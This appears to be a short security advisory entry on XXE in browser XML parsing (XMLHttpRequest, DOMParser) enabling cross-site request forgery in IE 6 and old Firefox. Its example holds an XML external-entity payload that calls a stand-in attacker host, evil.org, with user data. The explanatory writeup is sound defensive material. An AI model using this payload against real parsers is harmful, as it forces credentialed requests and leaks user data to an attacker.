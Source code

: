# XMLHttpRequest and DOMParser parsing allow arbitrary XSRF via XXE #

## Effect ##
Can cause the browser to request an arbitrary URL with the user's credentials.


## Background ##
XSRF is described at http://en.wikipedia.org/wiki/Cross-site_request_forgery

See http://www.securiteam.com/securitynews/6D0100A5PU.html for a description of XXE

Most browsers have some form of dom parser similar to http://developer.mozilla.org/en/docs/DOMParser


## Assumptions ##
Untrusted code can access the XMLHttpRequest object or cause a URL that it crafts to be passed to be requested.

OR

Untrusted code can cause a snippet of crafted XML to be parsed.



## Versions ##
IE 6 and old Firefox < 1.5.0.2

From http://lekkimworld.com/2006/05/29/firefox_and_external_xml_entity_references.html covers Firefox's vulnerabilities



## Example ##
```
<?xml version="1.0"?>
<!DOCTYPE foo [
   <!ENTITY external_info SYSTEM "http://evil.org?user_data=123">
]>
<foo>
   &external_info;
</foo>
```

Similar issues may arise with XSLTransform and the document() function.